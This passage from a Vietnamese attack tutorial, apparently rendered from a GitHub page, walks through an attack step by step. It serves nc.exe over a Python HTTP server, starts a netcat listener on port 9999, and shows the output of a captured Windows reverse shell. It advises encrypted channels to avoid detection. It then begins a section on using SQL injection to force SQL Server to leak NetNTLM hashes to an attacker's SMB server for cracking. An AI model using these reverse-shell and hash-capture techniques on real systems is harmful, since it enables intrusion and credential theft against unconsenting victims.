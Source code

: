 4. **Thiết lập môi trường tấn công:**
   - **Chạy HTTP server để phục vụ `nc.exe`:**
     ```bash
     python3 -m http.server 80
     ```
   - **Khởi động listener trên port 9999:**
     ```bash
     nc -nvlp 9999
     ```

---

### **4. Kết quả**

- **Kết nối thành công:**
  ```plaintext
  Ncat: Version 7.93 ( https://nmap.org/ncat )
  Ncat: Listening on :::9999
  Ncat: Listening on 0.0.0.0:9999
  Ncat: Connection from 192.168.43.156.
  Microsoft Windows [Version 10.0.19043.1826]
  C:\Windows\system32>
  ```

- Bạn có thể thực hiện các lệnh trực tiếp trên shell này.

---

### **Lưu ý**

1. **Phòng tránh lỗi:**
   - Đảm bảo URL tải `nc.exe` hợp lệ.
   - Kiểm tra firewall trên máy mục tiêu nếu không thể kết nối.
   - Sử dụng port không bị chặn (9999 là ví dụ).

2. **Tăng cường bảo mật:**
   - Sử dụng kết nối mã hóa như SSH hoặc HTTPS để tránh bị phát hiện.

---


# 12. Khai thác NetNTLM Hash qua SQL Injection

---

### **Tổng quan**

**NetNTLM hash** là dữ liệu xác thực Windows được gửi qua giao thức SMB khi một máy chủ cố gắng truy cập chia sẻ mạng. Lợi dụng điều này, chúng ta có thể:
1. **Buộc SQL Server gửi hash** tới một SMB server mà chúng ta kiểm soát.
2. **Thu thập NetNTLM hash** từ SMB server.
3. **Crack hash** để lấy mật khẩu.

---
